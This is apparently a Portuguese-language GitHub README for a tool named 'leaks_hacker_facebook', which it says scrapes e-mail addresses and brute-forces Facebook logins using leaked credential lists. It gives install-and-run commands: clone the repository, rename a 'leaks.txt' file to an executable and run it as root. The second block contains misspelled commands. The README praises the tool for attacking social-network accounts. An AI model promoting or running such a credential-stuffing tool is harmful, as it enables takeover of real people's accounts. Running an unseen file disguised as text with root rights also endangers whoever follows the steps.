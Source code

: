 # leaks_hacker_facebook
Esse script é capaz de fazer web scraping  no site pegar os e-mail e fazer bruteforce com base de leaks vazados, ótima ferramenta.

```
sudo apt-get  install curl -y
git clone https://github.com/L4NBY/leaks_hacker_facebook
cd leaks_hacker_facebook && clear && ls 
rename leaks.txt brute_web
chmod +x brute_web
sudo ./brute_web 

```

# ou 

```
sudo su
git clone https://github.com/L4NBY/leaks_hacker_facebook
cd leaks_hacker_facebook && clear && ls 
cp leaks.txt brute_web && rm -rf leaks.txt
chmod +x brute_web
sudo pyhton ./burte_web
```

ferramenta espetacular para Pentest uma das melhores   ferramentas para bruteforce em redes sociais muito linda e intuitiva 
